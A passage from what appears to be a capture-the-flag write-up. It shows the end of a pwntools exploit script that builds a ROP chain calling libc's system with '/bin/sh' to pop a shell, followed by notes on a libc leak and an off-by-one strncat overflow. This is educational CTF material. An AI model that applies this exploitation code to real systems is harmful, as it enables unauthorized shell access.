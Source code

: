 ```python
    rop_bytes = p32(libc_base + system_libc)
    rop_bytes += p32(main_binary)
    rop_bytes += p32(libc_base + bin_sh_libc)
    trigger_rop(p, rop_bytes)

def exploit(p):
    libc_base = leak_libc(p)
    log.info(f'libc_base: {hex(libc_base)}')
    pop_shell(p, libc_base)

def main():
    if IS_DEBUG:
        p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    else:
        if IS_REMOTE:
            p = remote(HOST, PORT)
        else:
            p = process(BINARY)

    exploit(p)

    log.info('Win')
    p.interactive()

if __name__ == '__main__':
    main()
```

The solution is pretty straightforward - 2 ROP chains, the first 1 serves for a read primitive, leaking libc address, adn the second one - to call `system`. \
The main lesson from this challenge, is that there is some crazy shit with glibc functions. I find it completely wrecked that `strncat` with `count == n`, may actually overwrite `n + 1` bytes. 
